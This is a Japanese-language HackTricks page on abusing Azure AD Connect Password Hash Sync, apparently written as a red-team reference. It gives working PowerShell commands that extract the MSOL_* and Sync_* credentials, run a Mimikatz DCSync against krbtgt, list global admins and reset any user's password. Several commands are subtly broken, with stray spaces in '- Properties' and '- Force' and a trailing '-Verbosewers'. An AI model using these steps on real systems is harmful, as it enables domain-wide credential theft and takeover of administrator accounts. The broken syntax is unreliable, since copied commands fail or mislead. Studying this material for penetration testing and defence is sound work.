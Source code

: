 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **パスワードハッシュの同期**は、ハイブリッドアイデンティティを実現するために使用されるサインイン方法の1つです。 **Azure AD Connect**は、オンプレミスのActive DirectoryインスタンスからクラウドベースのAzure ADインスタンスにユーザーのパスワードのハッシュのハッシュを同期します。

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

これは、企業がオンプレミスのADをAzure ADと同期させるために使用する**最も一般的な方法**です。

すべての**ユーザー**と**パスワードハッシュのハッシュ**がオンプレミスからAzure ADに同期されます。ただし、**平文のパスワード**や**元の** **ハッシュ**はAzure ADに送信されません。\
さらに、**組み込み**のセキュリティグループ（ドメイン管理者など）はAzure ADに**同期されません**。

**ハッシュの同期**は**2分ごと**に行われます。ただし、デフォルトでは、**パスワードの有効期限**と**アカウントの有効期限**はAzure ADに**同期されません**。したがって、**オンプレミスのパスワードが期限切れ**（変更されていない）であるユーザーは、古いパスワードを使用して**Azureリソースにアクセス**し続けることができます。

オンプレミスのユーザーがAzureリソースにアクセスしようとすると、**認証はAzure ADで行われます**。

**PHS**は、**アイデンティティ保護**やAADドメインサービスなどの機能に必要です。

## ピボッティング

PHSが構成されると、いくつかの**特権アカウント**が自動的に**作成**されます：

* アカウント**`MSOL_<installationID>`**は、オンプレミスADに自動的に作成されます。このアカウントには**ディレクトリ同期アカウント**の役割が与えられています（[ドキュメント](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)を参照）これは、オンプレミスADで**レプリケーション（DCSync）権限**を持つことを意味します。
* アカウント**`Sync_<name of on-prem ADConnect Server>_installationID`**がAzure ADに作成されます。このアカウントは、Azure AD内の**任意のユーザー**（同期されたユーザーまたはクラウド専用ユーザー）のパスワードを**リセット**できます。

これらの2つの特権アカウントのパスワードは、**Azure AD ConnectがインストールされているサーバーのSQLサーバーに保存**されています。管理者は、これらの特権ユーザーの平文のパスワードを抽出できます。\
データベースは`C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`にあります。

テーブルの1つから構成を抽出することが可能で、1つは暗号化されています：

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**暗号化された構成**は**DPAPI**で暗号化されており、オンプレミスADの**`MSOL_*`**ユーザーの**パスワード**とAzureADの**Sync\_\***のパスワードを含んでいます。したがって、これらを侵害することでADおよびAzureADへの権限昇格が可能です。

これらの資格情報がどのように保存され、復号化されるかの[完全な概要はこのトークで見つけることができます](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### **Azure AD Connectサーバーの特定**

**Azure AD Connectがインストールされているサーバー**がドメインに参加している場合（ドキュメントで推奨）、次の方法で特定できます：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\*の悪用
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
これらの資格情報を取得するために、[**adconnectdump**](https://github.com/dirkjanm/adconnectdump)を使用することもできます。
{% endhint %}

### Sync\_\*の悪用

**`Sync_*`** アカウントを侵害することで、任意のユーザー（グローバル管理者を含む）の**パスワードをリセット**することが可能です。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
クラウドユーザーの**パスワードのみを変更する**ことも可能です（予期しない場合でも）。
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
このユーザーのパスワードをダンプすることも可能です。

{% hint style="danger" %}
別のオプションは、**サービスプリンシパルに特権のある権限を割り当てる**ことで、**Sync**ユーザーが**権限**を持っているため、その**サービスプリンシパルにアクセスする**ことで特権昇格を行うことです。
{% endhint %}

### シームレスSSO

PHSを使用してシームレスSSOを利用することが可能で、他の悪用に対して脆弱です。詳細は以下を確認してください：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
